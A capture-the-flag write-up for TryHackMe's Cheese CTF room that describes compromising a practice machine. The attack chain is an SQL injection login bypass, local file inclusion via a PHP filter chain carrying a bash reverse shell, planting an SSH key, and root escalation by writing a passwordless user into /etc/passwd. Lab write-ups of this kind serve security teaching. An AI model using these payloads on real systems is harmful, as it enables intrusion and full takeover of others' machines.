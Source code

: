 # Cheese CTF - TryHackMe Writeup 🧀

Welcome to my writeup for the [Cheese CTF](https://tryhackme.com/room/cheesectfv10) room on TryHackMe.

This room focuses on web vulnerabilities, manual enumeration, and privilege escalation. Below, I walk through each step I took to compromise the machine and gain root access.

> ⚠️ This is for educational purposes only.

# Port Scanning
We began with a full Nmap scan, which returned over 100 open ports — most of them false positives or irrelevant.

The only ports of real interest were:
```python
Port 80 (HTTP)
Port 22 (SSH)
```
# Enumeration
```python
gobuster dir -u http://10.10.26.246 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html
```
Interesting results:
```python
/images               (Status: 301)
/index.html           (Status: 200)
/login.php            (Status: 200)
/messages.html        (Status: 200)
/orders.html          (Status: 200)
/users.html           (Status: 200)
```
The most interesting files were /login.php and /messages.html.

# Initial Access - SQL Injection
Using a basic SQLi payload on /login.php:
```python
admin' || '1'='1'; -- -
```
We bypassed authentication and were redirected to a new page:
```python
http://10.10.26.246/secret-script.php?file=php://filter/resource=supersecretmessageforadmin
```
Testing with:
```python
http://10.10.26.246/secret-script.php?file=php://filter/resource=/etc/passwd
```
✅ Confirmed LFI (Local File Inclusion) vulnerability.

# LFI to Shell
To exploit LFI and get a reverse shell, we used this tool:
```python
https://github.com/synacktiv/php_filter_chain_generator
```
Generated payload:
```python
python3 php_filter_chain_generator.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'\"); ?>" | grep "^php" > payload.txt
```
Started listener:
```python
nc -lvnp 4444
```
Then we injected the payload by browsing to:
```python
http://10.10.26.246/secret-script.php?file=<base64_payload_here>
```
✅ We received a reverse shell.

# SSH Access
In the shell, we checked ~/.ssh/ and found an authorized_keys file.
Steps:
1. Generated SSH key locally:
```python
ssh-keygen -t rsa
```
2. Appended our public key to the target's authorized_keys:
```python
echo "<id_rsa.pub>" >> authorized_keys
```
3. Logged in with our private key:
```python
ssh -i id_rsa comte@<ip>
```
Read the user flag:
```python
cat /home/comte/user.txt
```
# Privilege Escalation
Checking sudo permissions:
```python
sudo -l
```
We could run the following without password:
```python
/bin/systemctl daemon-reload
/bin/systemctl restart exploit.timer
/bin/systemctl start exploit.timer
/bin/systemctl enable exploit.timer
```
Looking into /etc/systemd/system/exploit.timer revealed a missing [Timer] option
```python
OnBootSec=5
```
The service file (exploit.service) showed it executed /opt/xxd.
Used [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/) to write to /etc/passwd:
```python
echo "KRY::0:0:KRY:/root:/bin/bash" | xxd | /opt/xxd -r - "/etc/passwd"
```
Switched to root:
```python
su KRY
```
Read root flag:
```python
cat /root/root.txt
```
## Conclusion

Thanks for reading my write-up for the Cheese CTF room on TryHackMe.  
This was a fun and educational challenge that helped reinforce concepts like LFI, SQLi, and privilege escalation.

